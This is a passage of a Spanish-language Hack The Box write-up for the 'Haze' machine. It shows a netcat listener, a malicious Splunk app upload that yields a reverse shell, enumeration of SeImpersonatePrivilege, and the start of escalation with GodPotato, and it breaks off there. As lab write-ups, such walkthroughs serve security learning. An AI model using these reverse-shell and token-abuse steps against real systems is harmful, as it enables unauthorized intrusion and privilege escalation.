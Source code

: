 Antes de realizar la carga, abrí un listener enel puerto 443 para recibir la conexión inversa.

```terminal
/home/kali/Documents/htb/machines/haze:-$ rlwrap -cAr nc -lnvp 443
    listening on [any] 443 ...
```

Desde el menú de administración de Splunk, accedí a `Apps` > `Manage Apps` y utilicé la opción `Install App From File` para cargar el archivo `reverse_shell_splunk.spl`. Una vez instalada, el cron interno de Splunk ejecutó automáticamente el payload alojado en la carpeta `bin/`, lo que generó una conexión directa hacia mi listener.

{% include embed/video.html src='assets/img/htb-writeup-haze/haze3_3.webm' types='webm' title='CVE-2025-24071 Exploitation' autoplay=true loop=true muted=true %}

```powershell
    ... connect to [10.10.14.249] from (UNKNOWN) [10.10.11.61] 64720

PS C:\Windows\system32>whoami
haze\alexander.green
```

El usuario `alexander.green` posee el privilegio `SeImpersonatePrivilege` habilitado. Este privilegio permite [abusar de un token autenticado](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html?highlight=SeImpersonatePrivilege#seimpersonateprivilege), siempre que se obtenga acceso al mismo <a href="#cwe-922" class="cwe-ref">(CWE-922)</a>.

```powershell
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

El entorno identificado desde el inicio corresponde a un sistema `Windows Server 2022`. Esto habilita el abuso del privilegio `SeImpersonatePrivilege` para escalar privilegios. 

---
## Privilege Escalation

### Access Token Manipulation

En este caso, utilizé la herramienta [GodPotato](https://github.com/BeichenDream/GodPotato), diseñada para explotar servicios vulnerables que ejecutan autenticaciones NTLM y permiten el uso de tokens privilegiados en procesos impersonados. Descargué el binario y expuse los archivos necesarios a través de un servidor HTTP.
